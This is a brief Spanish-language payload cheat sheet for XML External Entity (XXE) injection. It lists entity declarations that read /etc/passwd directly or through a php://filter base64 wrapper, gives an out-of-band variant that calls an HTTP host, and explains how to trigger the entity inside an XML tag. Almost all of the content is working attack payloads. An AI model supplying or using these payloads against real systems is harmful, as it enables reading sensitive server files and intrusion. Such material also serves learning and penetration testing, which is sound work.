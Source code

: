 -- -
## Payloads: 
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>

# XXE Out Of Band interaction (OOB) 
Estas mismas son lo mismo que las anteriores solo que a ciegas:
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.0.229/testXXE">]>





## Aclaraciones:
- Siempre hay que "invocar" el nombre de la entidad dentro de la estructura XML para asi ejecutar el payload. (&myFile dentro de algun tag). 

a